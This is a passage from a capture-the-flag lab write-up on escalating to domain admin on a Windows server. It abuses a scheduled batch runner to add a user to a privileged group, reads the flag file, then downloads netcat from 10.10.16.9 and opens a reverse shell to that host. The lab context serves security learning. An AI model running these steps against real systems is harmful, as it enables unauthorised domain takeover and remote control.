Invoke-Command -ScriptBlock { ls '\program files\'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage


    Directory: C:\program files


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
d-----        21/12/2021     00:04                common files                       ATSSERVER                         
d-----        21/12/2021     00:11                Hyper-V                            ATSSERVER                         
d-----        15/09/2018     08:12                internet explorer                  ATSSERVER                         
d-----        01/02/2022     19:41                keepmeon                           ATSSERVER                         
d-----        21/12/2021     00:04                VMware                             ATSSERVER                         
d-----        20/12/2021     21:19                Windows Defender                   ATSSERVER                         
d-----        20/12/2021     21:12                Windows Defender Advanced Threat   ATSSERVER                         
                                                  Protection                                                           
d-----        21/12/2021     14:13                WindowsPowerShell                  ATSSERVER                         


PS C:\utils> Invoke-Command -ScriptBlock { ls '\program files\keepmeon'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { ls '\program files\keepmeon'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage


    Directory: C:\program files\keepmeon


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-a----        21/12/2021     14:57            128 keepmeon.bat                       ATSSERVER                         


PS C:\utils> Invoke-Command -ScriptBlock { type '\program files\keepmeon\keepmeon.bat'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { type '\program files\keepmeon\keepmeon.bat'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)

```

- We also have an interesting group named `Site Admin` that has access to `Domain Admins`
```
PS C:\utils> Invoke-Command -ScriptBlock {  net group /domain} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock {  net group /domain} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin
The command completed with one or more errors.

PS C:\utils> Invoke-Command -ScriptBlock {  net group Site_Admin /domain } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock {  net group Site_Admin /domain } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
The command completed successfully.

```

- We can add `awallace` to `Site_Admin` group using the `bat` file
```
PS C:\utils> Invoke-Command -ScriptBlock {  Set-Content -Path 'c:\program files\keepmeon\pwn.bat' -Value 'net group site_admin awallace /add /domain' } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock {  Set-Content -Path 'c:\program files\keepmeon\pwn.bat' -Value 'net group site_admin awallace /add /domain' } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
PS C:\utils> Invoke-Command -ScriptBlock {  type 'c:\program files\keepmeon\pwn.bat' } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock {  type 'c:\program files\keepmeon\pwn.bat' } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
net group site_admin awallace /add /domain
```

- After 5 minutes, we can get our flag
```
PS C:\utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { net group Site_Admin /domain } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
awallace                 
The command completed successfully.
```
- That's enough to get a flag
```
PS C:\utils> Invoke-Command -ScriptBlock { type c:\users\administrator\desktop\root.txt } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { type c:\users\administrator\desktop\root.txt } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
2f0a007cbe7ae42f526e8afc13cfbcae
```

- To get a shell, we can upload `nc` as `awallace` to `ATTSERVER`
```
PS C:\utils> Invoke-Command -ScriptBlock { wget 10.10.16.9/nc64.exe -outfile c:\programdata\nc.exe } -ComputerName ATSSERVER -Credential $cred
Invoke-Command -ScriptBlock { wget 10.10.16.9/nc64.exe -outfile c:\programdata\nc.exe } -ComputerName ATSSERVER -Credential $cred
PS C:\utils> Invoke-Command -ScriptBlock { c:\programdata\nc.exe -e cmd 10.10.16.9 8888} -ComputerName ATSSERVER -Credential $cred
Invoke-Command -ScriptBlock { c:\programdata\nc.exe -e cmd 10.10.16.9 8888} -ComputerName ATSSERVER -Credential $cred

```

